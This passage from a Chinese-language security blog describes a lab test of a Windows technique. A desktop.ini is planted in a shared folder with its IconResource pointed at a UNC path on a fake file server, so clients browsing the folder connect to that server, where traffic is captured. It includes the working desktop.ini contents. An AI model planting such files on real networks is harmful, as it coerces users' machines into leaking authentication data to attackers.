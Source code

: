 那么，有没有更为隐蔽的方法呢？

## 0x04 修改文件夹图标强制用户访问伪造的文件服务器
---

参考scf文件的利用原理，需要找到可以指定IconFile属性的特殊文件

经过寻找，我找到了一个合适的方法： `修改文件夹图标强制用户访问伪造的文件服务器`

### 修改文件夹图标的方法：

选中`文件夹`-`右键`-`属性`-`自定义`-`更改图标`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/2-2.png)

更好后，在文件夹子目录生成文件desktop.ini，格式如下：

```
[.ShellClassInfo]
IconResource=C:\Windows\system32\SHELL32.dll,3
[ViewState]
Mode=
Vid=
FolderType=Generic
```

尝试将IconResource属性替换为UNC路径，路径为`IconResource=\\192.168.62.130\test\SHELL32.dll,3`

测试成功

### 实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135

#### 1、正常文件服务器共享目录的test文件夹下添加文件desktop.ini，内容如下：

```
[.ShellClassInfo]
IconResource=\\192.168.62.130\test\SHELL32.dll,4
[ViewState]
Mode=
Vid=
FolderType=Generic

```

**注：**

IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问正常文件服务器
